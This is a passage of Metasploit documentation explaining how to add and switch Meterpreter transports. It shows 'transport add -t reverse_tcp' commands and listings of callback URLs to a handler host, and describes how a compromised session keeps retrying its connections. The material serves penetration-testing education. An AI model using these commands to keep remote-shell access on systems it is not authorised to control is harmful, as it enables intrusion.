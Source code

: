 The following shows another example which adds another `reverse_tcp` transport to the transport list:

```bash
meterpreter > transport add -t reverse_tcp -l 10.1.10.40 -p 5005
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```

Note that these examples only add new transports, they do not change the current transport mechanism. When a transport is added to the list of transports, they are always added at the _end_ of the list, and not the start.

### Change transports

There are three different ways to change transports. One thing they do have in common is that transport switching assumes that you have listeners set up to receive the connections. If no listener or handler is present, then the resiliency features in Meterpreter will cause it to constantly attempt to establish connectivity on that transport using the transport timeout values that were configured. If the transport ultimately fails, then Meterpreter will cycle to the next transport on the list and try again. This will continue until a transport connection is successful, or the session timeout expires. More information on this can be found in the **session resiliency documentation** (link coming soon).

The three different ways to change transports are:

* `transport next` - This command will cause Meterpreter to shut down the current transport, and attempt to reconnect to Metasploit using the next transport in the list of transports.
* `transport prev` - This command is the same as `transport next`, except that it will move to the previous transport on the list, and not the next one.
* `transport change ...` - This command is equivalent to running `transport add`, and requires all the parameters that `transport add` requires (resulting in a new transport at the end of the list), and then `transport prev` (which is the same as going from the start of the list to the end). The net effect is the same as creating a new transport and immediately switching to it.

As an example, here is the current transport setup:

```bash
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```
